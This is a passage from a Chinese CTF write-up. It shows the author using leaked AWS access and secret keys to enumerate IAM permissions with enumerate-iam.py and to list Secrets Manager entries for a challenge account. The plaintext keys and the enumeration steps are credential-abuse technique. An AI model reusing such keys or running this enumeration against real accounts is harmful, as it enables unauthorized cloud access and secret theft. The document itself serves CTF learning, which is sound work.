 枚举一下权限

```bash
> python3.11 enumerate-iam.py --access-key AKIAXYAFLIG2NPAE4BAQ --secret-key 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

2024-05-27 08:52:08,757 - 15716 - [INFO] Starting permission enumeration for access-key-id "AKIAXYAFLIG2NPAE4BAQ"
2024-05-27 08:52:10,297 - 15716 - [INFO] -- Account ARN : arn:aws:iam::532587168180:user/vaultmanager
2024-05-27 08:52:10,297 - 15716 - [INFO] -- Account Id  : 532587168180
2024-05-27 08:52:10,297 - 15716 - [INFO] -- Account Path: user/vaultmanager
2024-05-27 08:52:10,529 - 15716 - [INFO] Attempting common-service describe / list brute force.
2024-05-27 08:52:25,555 - 15716 - [INFO] -- dynamodb.describe_endpoints() worked!
2024-05-27 08:52:29,497 - 15716 - [INFO] -- secretsmanager.list_secrets() worked!
```

这个 ps 脚本用来备份快照的，不过它并没有备份快照的权限，也没有查看实例权限，反而只有一个查看 secret 权限（有点生草，不能创建快照可以理解，毕竟防止参赛者乱来）

能 `secretsmanager.list_secrets` 

```bash
> aws secretsmanager list-secrets

{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:532587168180:secret:AWSVault11-gd6Hq8",
            "Name": "AWSVault11",
            "LastChangedDate": "2024-05-07T21:11:13.505000+08:00",
            "LastAccessedDate": "2024-05-07T08:00:00+08:00",
            "SecretVersionsToStages": {
                "terraform-20240507123751892900000003": [
                    "AWSCURRENT"
                ]
            },
            "CreatedDate": "2024-05-07T20:37:51.318000+08:00"
        },
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:532587168180:secret:AWSVault11-dev-lYByRs",
            "Name": "AWSVault11-dev",
            "LastChangedDate": "2024-05-07T22:07:20.991000+08:00",
            "LastAccessedDate": "2024-05-25T08:00:00+08:00",
            "SecretVersionsToStages": {
                "terraform-20240507140720756700000004": [
                    "AWSCURRENT"
                ]
            },
            "CreatedDate": "2024-05-07T22:07:20.232000+08:00"
        }
    ]
}
```
